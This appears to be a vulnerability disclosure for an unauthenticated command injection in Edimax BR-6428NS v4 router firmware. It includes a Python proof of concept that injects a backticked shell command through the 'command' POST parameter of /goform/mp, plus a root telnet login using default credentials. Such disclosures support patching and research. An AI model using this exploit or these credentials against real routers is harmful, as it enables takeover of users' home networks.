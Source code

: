 # Command Injection

Command injection without any limitations

## Firmware

Wireless: Edimax home Wireless Routers N300 

Firmware Version: BR-6428NS_v4_1.10

You can download Firmware at this [website](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4) and use FirmAE to simulate the router environment.

FirmAE command: `./run.sh -r v4 BR-6428NS_v4_1.10.bin`(This will take a while, please be patient:)

![image-20230428095433531](img/image-20230428095433531.png)

## Description

The vulnerability was found in **/bin/webs**.

Function is  **mp**

![image-20230428110742351](img/image-20230428110742351.png)

The post parameter **command** will be sprintf as $0 which will be executed

![image-20230428110943050](img/image-20230428110943050.png)

## poc

python

```python
import requests

command = "touch /tmp/Swe3ty2"

url = "http://192.168.2.1/goform/mp"
data = {
	"command":"`"+command+"`"
}

r = requests.post(url,data=data)
print(r.text)
```

use **root/edimaxens** telnet to the router

```shell
telnet 192.168.2.1
```



![image-20230428111345076](img/image-20230428111345076.png)